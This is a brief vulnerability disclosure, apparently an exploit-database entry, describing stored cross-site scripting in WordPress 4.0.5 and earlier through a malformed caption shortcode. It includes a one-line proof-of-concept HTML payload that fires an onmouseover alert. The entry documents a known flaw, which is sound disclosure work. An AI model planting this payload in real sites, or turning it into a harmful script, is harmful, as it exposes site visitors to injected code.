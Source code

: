 1. Write up
  There is a vulnerability in Wordpress where a user could use a specially formatted HTML tag to insert a XSS script into a post, to which the script is then activated running malicious code.(Example through mouse over)

2. Proof of Concept
  Place this script anywhere in the post or page.
  <a href="[caption code=">]</a><a title=" onmouseover=alert('XSS')  ">link</a>

3. Class of vulnerability
  CVE-2015-2213
  https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2213

4. Vulnerable Versions
  Confirmed vulnerable: WordPress <= 4.0.5
